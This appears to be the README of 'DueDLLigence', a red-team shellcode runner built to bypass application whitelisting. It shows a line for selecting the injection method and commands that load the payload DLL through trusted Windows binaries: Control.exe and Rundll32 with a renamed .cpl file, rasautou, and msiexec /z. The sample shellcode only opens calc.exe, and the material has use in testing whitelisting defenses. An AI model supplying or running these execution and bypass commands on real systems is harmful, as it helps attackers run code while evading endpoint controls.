 # DueDLLigence

Shellcode runner for all application whitelisting bypasses. The shellcode included in this project spawns calc.exe.


If desired, change the injection type by modifying the following line to the appropriate injection type
<br>```public const ExecutionMethod method = ExecutionMethod.CreateThread;```

Running the DLL with the following legitimate exes 

## Control.exe
Export: CPlApplet
Syntax: Rename compiled “dll” extension to “cpl” and just double click it!
<br>```Control.exe [cplfile]```
<br>```Rundll32.exe Shell32.dll, Control_RunDLL [cplfile]```

## Rasautou
Export: powershell
<br>```rasautou –d {dllpayload} –p powershell –a a –e e```

## Msiexec
Export: DllUnregisterServer
<br>```msiexec /z {full path to msiexec.dll}```

